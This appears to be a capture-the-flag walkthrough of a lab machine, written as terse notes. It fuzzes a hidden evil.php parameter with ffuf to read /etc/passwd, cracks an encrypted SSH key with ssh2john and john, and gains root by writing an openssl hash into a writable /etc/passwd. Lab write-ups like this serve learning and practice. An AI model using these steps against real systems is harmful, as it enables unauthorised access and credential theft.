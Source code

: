ip: 192.168.246.212

p-80
/robots.txt: Hello H4x0r

/secret
/secret/evil.php

- both empty

I try fuzzing the endpoint with ffuf:

```php
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 100 -u http://$IP/secret/evil.php?FUZZ=/etc/passwd -fs 0
```

![[IMG/Pasted image 20241003082007.png]]

command

`http://192.168.246.212/secret/evil.php?command=/etc/passwd`

![[IMG/Pasted image 20241003082201.png]]

This gives me RCE on the server. I can use a reverse shell to gain access to the machine. 

I can see a user, i should look around to see if there is any shh keys:

`mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash`

![[IMG/Pasted image 20241003082716.png]]

I'll use the key to login to the machine. Looking further i see that the key is encrypted so i'll need to use john to get the correct file.

```php
ssh2john id_rsa > key.hash
```

```php
john key.hash
```

![[IMG/Pasted image 20241003083449.png]]

```php
ssh mowree@$IP 
```
- Use the passwd with the key

I take a quick look around and then move into dev/shm and transfer my tools.

linpeas

`[+] [CVE-2019-13272] PTRACE_TRACEME `

`/etc/passwd is writable`

create a new password to update the root pass with:

```php
oppenssl passwd 123
```

`$1$LV7J/Jeh$mbeZHGinr3co0c5bwlQlv.`

I haven't used it before so i echo it into a hash file for john to crack, just so i know it's working as i expect it to.

```php
echo '$1$LV7J/Jeh$mbeZHGinr3co0c5bwlQlv.'> hash.txt
```

```php
john hash.txt
```

John comes back with the password as `123` which is correct.

i Update the password, by removing the x placeholder and adding the pass from openssl, and switch users. The flag is in the root directory.

![[IMG/Pasted image 20241003085558.png]]

![[IMG/Pasted image 20241003085524.png]]

